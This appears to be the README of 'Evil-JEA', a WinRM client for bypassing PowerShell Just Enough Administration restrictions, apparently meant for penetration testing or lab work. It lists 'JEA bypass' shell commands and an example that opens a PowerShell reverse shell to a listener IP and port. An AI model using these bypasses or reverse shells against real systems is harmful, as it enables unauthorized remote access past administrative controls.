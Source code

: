 # Evil-JEA

A small WinRM client designed for interacting with JEA endpoints.

## Installation

From PyPi:
```
pip install evil-jea
```

From source:
```
git clone https://github.com/sashathomas/evil-jea
cd evil-jea
make install
make build
```

## Usage
```
Usage: evil-jea [OPTIONS] COMMAND [ARGS]...

  ___________     .__.__                 ____.___________   _____   
  \_   _____/__  _|__|  |               |    |\_   _____/  /  _  \  
   |    __)_\  \/ /  |  |    ______     |    | |    __)_  /  /_\  \ 
   |        \\   /|  |  |__ /_____/ /\__|    | |        \/    |    \
  /_______  / \_/ |__|____/         \________|/_______  /\____|__  /
          \/                                          \/         \/ 
                                                                                                                           
      

Options:
  -v, --verbose  Enable verbose output.
  --help         Show this message and exit.

Commands:
  connect  Connect to JEA target.
  run      Run a single command on the JEA target.
  shell    Attempts to run a reverse shell on the target using a call...
  version  Get the library version.
```
## JEA Shell
Once connected to a shell, evil-jea offers a couple custom commands to help find and exploit common JEA misconfigurations:

```
[10.10.10.210]: PS> help

JEA Shell Commands:
    help                    Show list of available commands
    info [command]          Dump definitions for available commands. 
    call [command]          JEA bypass: Attempts to run [command] using call operator 
    function [command]      JEA bypass: Attempts to run [command] inside of a custom function
    rev_shell [ip] [port]   JEA bypass: Attempts to run a PowerShell reverse shell using call operator
```

## Examples
Connect to JEA endpoint:
```
evil-jea connect username password 10.10.10.10
```

Run single command on JEA endpoint:
```
evil-jea run username password 10.10.10.10 "Get-Command"
```

Try to run a PowerShell reverse shell using a call operator bypass:
```
[10.10.10.210]: PS> rev_shell 10.10.14.2 4444
```

## License

Copyright (c) sashathomas

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
